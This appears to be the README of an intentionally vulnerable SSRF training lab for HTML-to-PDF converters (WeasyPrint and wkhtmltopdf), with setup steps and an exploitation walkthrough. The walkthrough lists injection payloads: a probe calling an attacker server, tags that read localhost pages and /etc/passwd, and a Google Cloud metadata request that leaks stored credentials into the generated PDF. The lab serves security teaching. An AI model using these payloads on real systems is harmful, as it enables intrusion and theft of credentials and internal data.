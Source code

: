 # SSRF in HTML to PDF converter functionality

<b>Exploitation Difficulty : Easy</b><br>

These are the SSRF scenario based on the fact that when web application accepting the user user input, placing them in HTML and pass the HTML code to "HTML to PDF generator".
<br><br>When HTML code will be processed by the "HTML to PDF generator", HTML code will be evaluated to corresponding representation of that HTML code in web browser.
<br>In this case, if attacker supplied data is not getting senitized or filtered before placing it to HTML code, attacker can trick "HTML to PDF generator" software to access the internal Hosts/domains. 

We have scenarios of 2 "HTML to PDF generator" which allow an attacker to exploit SSRF vulnerability if web application is passing the untrusted user supplied data to HTML code.
<br>These "HTML to PDF generator" are:

    1. Weasyprint 
    2. wkhtmltopdf

<br><b>pdf_ssrf_weasyprint.php</b> is vulnerable script which is using <b>weasyprint</b>.
<br><b>pdf_ssrf_wkhtmltopdf.php</b> is vulnerable script which is using <b>wkhtmltopdf</b>.

<b>System Requirements:</b>
  
    1. Weasyprint and wkhtmltopdf converter must be installed on the machine.
    2. Web server with PHP support 

<b>Linux based setup: wkhtmltopdf</b>
<br>No change is required. This scripts are developed to work on Linux OS. 

<b>Windows based setup:</b>
<br>Below mentioned changes will be required:


Remove comment syntax from the line no "271" and "272" and make them like this

    $path_pdf_converter='C:\Program Files\wkhtmltopdf\bin\wkhtmltopdf.exe'; /*remove the comment if you want to use it on Windows machine*/
    passthru('"'.$path_pdf_converter.'" -T 0 -R 0 -B 0 -L 0 --orientation Portrait --page-size A4 sample.html output4.pdf'); /*remove the comment if you want to use it on Windows machine*/

Comment out the the line number 273 like this 

    //passthru('xvfb-run wkhtmltopdf -T 0 -R 0 -B 0 -L 0 --orientation Portrait --page-size A4 --quiet sample.html output4.pdf 2>&1');

<b>Installation</b>

wkthmltopdf
    
    sudo apt-get update
    sudo apt-get install xvfb libfontconfig wkhtmltopdf

weasyprint

As per the OS, follow steps from below mentioned URL to install the weasyprint:

https://weasyprint.readthedocs.io/en/stable/install.html
    

# Exploitation


Let's start with exploitation and possible attack vectors to perform SSRF.

<b>SSRF in Weasyprint HTML to PDF generator</b>

Web application accepting user input via GUI.<br>  
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w1.png?raw=true)

Accepted the user input, placed it inside the HTML code and generated PDF by rendering the HTML code 

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w2.png?raw=true)

After observing such behavior, try with following payloads to confirm whether web application code is vulnerable:

    <h1>test</h1>
    <img src=http://attacker_server_IP/>

If web application is processing the above mentioned payloads, go for below mentioned payloads to exploit SSRF.

<b>Payloads</b>

To grab the data from HTTP based URL, use below mentioned style payload

    <link rel=attachment href="http://web_URL">
    <link rel=attachment href="http://localhost/admin.php">
To grab the data from internal file system, use below mentioned style payload

    <link rel=attachment href="file://internal_file_path">
    <link rel=attachment href="file:///etc/passwd">
<b>Exploiting the SSRF - Google Cloud Metadata endpoint access</b>

Let's assume, web application is hosted inside the Google Cloud Platform. Now, try to grab the data from Google Cloud internal Metadata endpoint.
I saved sample username and password during the creation of the Virtual machine which are accessible on below mentioned URL:
http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes

Below mentioned payload will grab and attach the HTTP response from the above metnioned Metadata URL to PDF:

    <link rel=attachment href="http://metadata.google.internal/computeMetadata/v1beta1/instance/?recursive=true">

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w3.png?raw=true)

Open the generated PDF and observe, nothing is there in customer name column. Download the generated PDF file to extract the data from it.

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w4.png?raw=true)

Extract the attached content from the downloaded PDF file using the script developed by Ben AKA Nahamsec.

    python script.py  downloaded_file.pdf
  
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w5.png?raw=true)


<b>SSRF in WKHTMLtoPDF HTML to PDF conveter</b>

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk1.png?raw=true)


![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk2.png?raw=true)

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk3.png?raw=true)

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk4.png?raw=true)


./Thanks

